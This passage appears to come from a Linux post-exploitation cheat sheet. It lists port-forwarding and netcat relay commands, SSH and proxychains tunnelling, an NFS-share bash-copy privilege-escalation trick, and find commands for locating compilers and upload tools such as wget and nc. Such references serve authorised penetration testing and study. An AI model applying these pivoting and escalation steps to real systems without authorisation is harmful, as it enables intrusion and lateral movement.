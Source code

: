
    == Is port forwarding possible? Redirect and interact with traffic from another view ==
# rinetd
http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch

# fpipe
FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7

# ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]
ssh -L 8080:127.0.0.1:80 root@192.168.1.7    # Local Port
ssh -R 8080:127.0.0.1:80 root@192.168.1.7    # Remote Port

# mknod backpipe p ; nc -l -p [remote port] < backpipe  | nc [local IP] [local port] >backpipe
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.1.1.251 80 >backpipe    # Port Relay
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe    # Proxy (Port 80 to 8080)
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe    # Proxy monitor (Port 80 to 8080)

## Is tunnelling possible? Send commands locally, remotely
ssh -D 127.0.0.1:9050 -N [username]@[ip] 
proxychains ifconfig

#copy bash to a new subshell
mount a NFS share from a remote server, copy bash from local to remote and execute
cp -p ./bash /mnt/share/newbash
./newbash -p

    == Preparation & Finding Exploit Code ==
## What development tools/languages are installed/supported?
find / -name perl*
find / -name python*
find / -name gcc* 
find / -name cc


## How can files be uploaded?
find / -name wget
find / -name nc*
find / -name netcat*
find / -name tftp* 
find / -name ftp 
